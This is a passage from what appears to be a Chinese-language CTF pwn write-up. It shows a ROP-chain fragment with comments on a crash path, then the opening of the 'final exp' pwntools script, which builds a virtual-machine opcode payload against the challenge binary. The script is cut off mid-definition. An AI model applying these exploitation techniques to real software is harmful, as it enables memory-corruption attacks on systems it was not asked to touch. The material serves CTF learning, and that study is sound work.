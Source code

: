 ```python
    #如果cmp指令不等于，则会jne 0x1925c5  ->   sbb  eax, eax ; sbb eax, 0FFFFFFFFh
    #add rax,rdi后rax的值可能为一个非法地址，那么mg2  mov qword ptr [rax], -1就会让程序崩掉，因为[rax]非法访问内存
    write_func(add_rax_rdi)
    write_func(mg2)

    #否则就进入read，read是可以进行阻塞的
    write_func(pop_rdi)
    write_other(0)
    write_func(pop_rsi)
    write_func(bss)
    write_func(pop_rdx)
    write_other(0x100)
    write_func(libc.symbols["read"])
```

- 最终exp如下

```python
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
from pwn import *
from ctypes import *
import ast
import struct
context(os='linux', arch='amd64', log_level='debug')
# p = process("/home/zp9080/PWN/pwn")
# p=gdb.debug("/home/zp9080/PWN/pwn",'b *$rebase(0x1A8F7)')
# p=remote('192.168.18.26',8883)
# p=process(['seccomp-tools','dump','/home/zp9080/PWN/pwn'])
elf = ELF("/home/zp9080/PWN/pwn")
libc=elf.libc 
# def dbg():
#     gdb.attach(p,'b *$rebase(0x33EC)')
#     pause()

check=b'LOGIN:root\nadmin:h3r3_1s_y0u2_G1ft!&&An9q\nDONE&EXIT\n'
pay=b''
#reg[idx]/=value
def reg_mulvalue(idx,value):
    global pay
    pay+=b'\xb8'+b'\x01'+p8(idx)+p64(value)

# reg[idx1]/=reg2[idx2]test
def div(idx1, idx2):
    global pay
    pay += b'\xb8' + b'\x00' + p8(idx1) + p8(idx2)

# stack[rsp]=value
def pushvalue(value):
    global pay
    pay += b'\xb4' + b'\x01' + p64(value)

#stack[rsp]=reg[idx]
def pushreg(idx):
    global pay
    pay+=b'\xb4'+b'\x00'+p8(idx)

#ret
```